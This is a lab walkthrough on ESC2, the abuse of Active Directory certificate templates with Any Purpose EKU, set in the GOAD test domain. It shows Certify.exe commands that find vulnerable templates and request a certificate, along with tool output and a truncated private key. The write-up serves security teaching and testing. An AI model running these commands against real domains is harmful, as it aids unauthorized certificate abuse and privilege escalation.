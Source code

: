 ```csharp
```

## ESC2: Misconfigured Certificate Templates with Any Purpose EKU

ESC2 targets templates with the "Any Purpose" Extended Key Usage, which essentially means the certificate can be used for anything.

### Vulnerability Conditions

- Certificate template has **Any Purpose EKU** (OID: 2.5.29.37.0)
- **Domain Users** have enrollment rights
- No **manager approval** required

**Important Note:** ESC2 alone does not allow direct impersonation of other users like ESC1. An Any Purpose certificate becomes truly dangerous only when the CA or template also allows SAN/SID injection (ESC 6/9/10). On a fully-patched domain controller with strong certificate mapping enforcement (following KB5014754 patches from May 2022, with full enforcement phases extending through early 2025), an Any-Purpose certificate on its own will not bypass strong certificate mapping.

### Exploitation

Let's check for ESC2 templates in GOAD:

```bash
Certify.exe find /vulnerable

[!] Vulnerable Certificates Templates :

    CA Name                       : braavos.essos.local\ESSOS-CA
    Template Name                 : ESC2
    Schema Version                : 2
    Validity Period               : 1 year
    Renewal Period                : 6 weeks
    msPKI-Certificate-Name-Flag   : 0x0
    mspki-enrollment-flag         : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required: 0
    pkiextendedkeyusage           : Any Purpose
    msPKI-Application-Policies    : Any Purpose
    Permissions
      Enrollment Permissions
        Enrollment Rights           : ESSOS\Domain Users                    Access: Allow
```

In vanilla GOAD, ESC2 template is cloned from the built-in User template and keeps only Any-Purpose EKU (no ENROLLEE_SUPPLIES_SUBJECT flag). If your lab shows the flag, that's ESC1 + AnyPurpose combined.

Now request certificate with Any Purpose EKU (as yourself)

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:ESC2

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] Template                : ESC2
[*] Subject                 : CN=missandei, CN=Users, DC=essos, DC=local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 8

[*] cert.pem                :
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3kT8F6PSyEzGCq5VJXpF8rTQoYmZ9BNQ3T4Uy8F0aGF9ZLQW
...certificate data...
```